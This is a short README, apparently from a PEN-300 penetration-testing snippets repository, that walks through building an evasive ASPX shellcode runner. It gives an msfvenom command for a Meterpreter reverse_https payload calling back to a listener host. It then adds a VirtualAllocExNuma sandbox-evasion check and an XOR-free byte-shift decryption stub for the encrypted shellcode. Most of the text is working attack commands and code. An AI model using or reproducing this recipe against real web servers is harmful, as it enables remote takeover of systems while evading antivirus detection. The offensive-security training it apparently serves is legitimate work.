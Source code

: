 1. Create a malicious .aspx file with msfvenom

```
~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f aspx -o met.aspx
```

2. Add the "VirtualAllocExNuma" and "GetCurrentProcess" C# signatures. Then add this piece of code under the "Page_Load" method:

```
         IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
         if(mem == null)
         {
             return;
         }
```

3. Now, we will use the [encoder.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/ASPX%20Shellcode%20Runner/Encoder.cs) file to encrypt the shellcode that msfvenom originally generated.

4. Finally, change the original shellcode for the encrypted one and add this decryption stub:

```
byte[] pLG0 = new byte[1165] { 0x01, 0x4d, 0x88, ... };
for(int i = 0; i < pLG0.Length; i++)
{
 pLG0[i] = (byte)(((uint)pLG0[i] - 5) & 0xFF);
}
```
